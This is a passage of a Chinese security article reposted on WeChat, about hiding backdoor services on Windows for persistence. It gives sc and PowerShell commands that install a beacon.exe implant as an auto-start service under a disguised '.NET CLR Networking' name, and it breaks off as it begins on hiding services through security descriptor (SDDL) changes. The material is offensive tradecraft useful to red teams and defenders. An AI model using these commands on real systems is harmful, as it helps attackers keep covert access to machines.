 #  利用安全描述符隐藏服务后门进行权限维持

[ 阿乐你好 ](javascript:void\(0\);)

**阿乐你好** ![]()

微信号 gh_cdf3717dded0

功能介绍 安全相关信息推送

____

__

收录于话题

以下文章来源于宽字节安全 ，作者oulaa

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM41BKRqZxM6ESrdsYW8HHyicBWnjz1Fr53a9SULHcraK3Q/0)
**宽字节安全** .

二十年专注安全研究，漏洞分析

# **本文来自宽字节安全第一期学员oulaa投稿。第二期线下培训预计十一月底开班，欢迎咨询。**  

# 通过注册服务创建后门

将后门程序注册为自启动服务是我们常用的一种进行权限维持的方法，通常可以通过sc或者powershell来进行创建。

  * cmd创建自启动服务

    
    
    sc create ".NET CLR Networking 3.5.0.0" binpath= "cmd.exe /k C:\Users\aa\Desktop\beacon.exe" depend= Tcpip obj= Localsystem start= auto  
    

  * powershell创建自启动服务

    
    
    new-service –Name ".NET CLR Networking 3.5.0.0" –DisplayName ".NET CLR Networking 3.5.0.0" –BinaryPathName "cmd.exe /k C:\Users\aa\Desktop\beacon.exe"  –StartupType AutomaticDelayedStart  
    

但创建的服务很容易被发现 通过`sc query` 和`Get-Service`很容易发现，直接查询服务也能看见

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915091800.png)

# 通过修改SDDL(安全描述符)隐藏服务

众所周知，windows访问控制模型分为两部分：

  * access token(访问令牌)
  * 安全描述符
